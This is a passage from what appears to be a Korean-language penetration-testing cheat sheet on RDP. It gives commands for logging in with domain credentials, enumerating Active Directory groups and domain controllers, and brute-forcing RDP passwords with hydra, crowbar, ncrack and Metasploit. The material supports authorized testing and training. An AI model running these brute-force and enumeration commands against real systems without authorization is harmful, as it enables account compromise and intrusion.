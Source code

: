 ### 👥 도메인 환경 접근시

```bash
# 도메인 크레덴셜로 접근
xfreerdp /u:{DOMAIN}\\{USERNAME} /p:{PASSWORD} /v:{IP} /d:{DOMAIN}

# 도메인 정보 수집 (RDP 접근 후)
# PowerShell 또는 Command Prompt에서:
echo %USERDOMAIN%
echo %LOGONSERVER%
nltest /dclist:{DOMAIN}

# Active Directory 정보 수집
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net user /domain

# 도메인 컨트롤러 확인
nslookup -type=SRV _ldap._tcp.{DOMAIN}
```

### 🔐 브루트포스 공격

```bash
# Hydra를 이용한 RDP 브루트포스
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://{IP}
hydra -L users.txt -P passwords.txt rdp://{IP}

# 특정 사용자에 대한 집중 공격
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://{IP} -t 1 -W 3

# 도메인 사용자 브루트포스
hydra -l {DOMAIN}\\administrator -P passwords.txt rdp://{IP}

# 다른 서비스에서 수집한 사용자 목록 활용
hydra -L discovered_users.txt -P passwords.txt rdp://{IP}

# crowbar 사용 (더 안정적)
crowbar -b rdp -s {IP}/32 -u administrator -C passwords.txt

# ncrack 사용
ncrack -vv --user administrator -P passwords.txt rdp://{IP}

# Metasploit 브루트포스
msfconsole
use auxiliary/scanner/rdp/rdp_login
set RHOSTS {IP}
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
